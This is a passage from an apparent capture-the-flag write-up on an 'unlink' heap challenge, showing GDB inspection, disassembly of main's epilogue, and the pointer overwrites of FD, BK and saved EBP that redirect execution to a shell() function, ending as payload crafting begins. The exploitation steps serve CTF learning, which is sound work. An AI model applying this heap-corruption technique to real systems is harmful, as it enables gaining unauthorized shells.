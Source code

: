 ```
(gdb) x/1x $ebp
0xff9bdc28:     0xff9bdc58
```

saved_ebp_address = `0xff9bdc28`

Now we can apply our [solution](#solution):

BUT after playing with the binary in GDB a bit, I figured out that the solution is a bit more complicated than what I initially thought becuase main does not end like a normal function:

```        
		080485ff 8b 4d fc        MOV        ECX,dword ptr [EBP + local_c]
        08048602 c9              LEAVE
        08048603 8d 61 fc        LEA        ESP,[ECX + -0x4]
        08048606 c3              RET
```


so my final solution was:
- Store `shell()` address in the upper 4 bytes of `buffer`
- Store  `heap_shell_address + 4`, inside the lower 4 bytes of `buffer`
- Store the address of `saved_ebp` (which while in `unlink()`, its address is just ebp), inside BK
- Store the address of the lower 4 bytes of `buffer` + 4 in FD

It all sums up to:

```
set *((int*)0x901f418) = 0x901f41C + 4
set *((int*)0x901f41C) = 0x80484eb
set *((int*)0x901f428) = 0x901f418 + 4
set *((int*)0x901f42C) = $ebp
```

ebp value (inside unlink):
```
(gdb) i r ebp
ebp            0xff98e8b8       0xff98e8b8
```

and we get a shell (with GDB, do not get too excited yet)

```
(gdb) set *((int*)0x901f418) = 0x901f41C + 4
(gdb) set *((int*)0x901f41C) = 0x80484eb
(gdb) set *((int*)0x901f428) = 0x901f418 + 4
(gdb) set *((int*)0x901f42C) = $ebp
(gdb) c
Continuing.
$ echo got a shell
got a shell
```


## Crafting the payload
The addresses in the payload will be determined relatively to the leak addresses. Values from GDB are enoguh so we could calculate the relative distance from the leaked addresses.

